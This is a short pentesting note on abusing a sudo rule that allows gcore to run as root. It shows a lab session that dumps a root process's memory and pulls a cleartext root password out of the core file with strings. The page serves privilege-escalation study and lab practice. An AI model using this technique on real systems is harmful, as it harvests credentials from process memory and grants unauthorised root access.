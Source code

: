 ```yaml
---
description: using gcore with sudo privilege for priv esc
---
```


# gcore

```
(ALL) NOPASSWD: /usr/bin/gcore

sudo gcore $PID
```

Gcore is dumping a process with its PID value. So, if you have enough permission to execute it, you can get cleartext password from the process.

SSH - Low priv user with root access - If you are lucky, the user used root password.

(ps aux - you can see root priv but it is using another user)

You can see an another way to privesc without analyzing ssh service.

```
user@test:/tmp/test$ ps aux | grep root
root       495  0.0  0.0   2276    72 ?        Ss   17:12   0:00 /usr/bin/password-store

user@test:/tmp/test$ sudo gcore 495
sudo gcore 495
0x00007f50a9fce6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffccf6689b0, remaining=remaining@entry=0x7ffccf6689b0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.495
[Inferior 1 (process 495) detached]
user@test:/tmp/test$ strings core.495

001 Password: root:
asfkahsfyafklashcolahsf
```
